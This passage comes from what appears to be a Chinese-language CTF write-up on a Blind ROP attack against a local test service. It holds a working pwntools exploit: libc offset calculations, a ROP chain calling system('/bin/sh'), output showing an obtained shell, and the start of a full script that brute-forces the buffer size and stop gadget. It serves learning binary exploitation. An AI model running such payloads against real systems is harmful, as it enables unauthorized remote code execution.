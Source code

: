 ```python
offset_puts   = 0x000000000006f210
offset_system = 0x0000000000042010
offset_str_bin_sh = 0x17aff5

system_addr = (puts_addr - offset_puts) + offset_system
binsh_addr  = (puts_addr - offset_puts) + offset_str_bin_sh

# get shell
payload  = "A"*buf_size
payload += p64(gadgets_addr + 9)    # pop rdi; ret;
payload += p64(binsh_addr)
payload += p64(system_addr)
payload += p64(stop_addr)

p = remote('127.0.0.1', 10001)
p.recvline()
p.sendline(payload)
p.interactive()
```
Bingo!!!
```
$ python2 exp.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ whoami
firmy
```


## Expolit
完整的 exp 如下，其他文件放在了github相应文件夹中：
```python
from pwn import *

#context.log_level = 'debug'

def get_buffer_size():
    for i in range(100):
        payload  = "A"
        payload += "A"*i
        buf_size = len(payload) - 1
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.send(payload)
            p.recv()
            p.close()
            log.info("bad: %d" % buf_size)
        except EOFError as e:
            p.close()
            log.info("buffer size: %d" % buf_size)
            return buf_size

def get_stop_addr(buf_size):
    addr = 0x400000
    while True:
        sleep(0.1)
        addr += 1
        payload  = "A"*buf_size
        payload += p64(addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
```